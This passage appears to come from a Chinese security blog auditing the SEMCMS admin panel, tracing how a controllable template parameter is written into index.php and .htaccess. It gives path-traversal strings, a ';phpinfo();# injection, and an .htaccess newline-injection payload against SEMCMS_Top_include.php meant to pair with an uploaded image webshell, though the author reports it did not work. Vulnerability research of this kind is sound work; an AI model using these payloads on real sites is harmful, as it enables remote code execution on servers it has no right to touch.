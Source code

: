 ![](https://img-blog.csdnimg.cn/e39584bf1e8345c782c52de123e8c74a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
这里`file_get_contents()` 和 `str_replace()` 就是从模板目录下提取index.php和htaccess文件然后替换`<{Template}>`写入到主目录下的index.php和htaccess

模板目录：

![](https://img-blog.csdnimg.cn/538910f653c64b1b816d3d9973707bf2.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
![](https://img-blog.csdnimg.cn/6d3ec81a04e341fdb13e2bffd85a019c.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
注意：这里的`$mb虽然可控` 但是由于后面文件的限定，所以现在的情况是：
`限定/可控/限定`  而且这个文件还是要存在才能接着进行下面的操作，不然你怎么把`<{Template}>`替换并写入

这里就可以 `先构造不存在的下级目录然后再通过../来返回到原来的目录`
例如：
```
../ Templete/';phpinfo();#/../default/Include/xxx
```
那么利用这点尝试getshell，所以有两个文件可以进行写入

先分析写入一句话到index.php的可行性：

如果  
```
<{Template}>=$mb=';phpinfo();#  
```
那么写入文件后是这样：闭合单引号即可利用

![](https://img-blog.csdnimg.cn/0ab025d0066b48bba826ade4a66eed9a.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
但是向上追踪的时候发现

![](https://img-blog.csdnimg.cn/c420bc2d15064a06b9c0810659d8d554.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
调用了这个函数，那么我们的单引号无法写入，所以index.php这条路走不通

尝试`.htacces`
这个文件的利用不用多说，尝试构造

```
../Templete/123%0aSetHandler application/x-httpd-php%0a%23/../../default/xxx
```
payload：

```
/XkVOaf_Admin/SEMCMS_Top_include.php?CF=template&mb=123%0aSetHandler application/x-httpd-php%0a%23/../../default
```

再配合着刚才上传的图片马，理论能getshell


但是我没利用成功，可能是哪个文件没设置好吧，不过也开阔了思路

Phpstudy记得开启

![](https://img-blog.csdnimg.cn/ad62c4b6b1c5416498c926a73dd6eea9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)


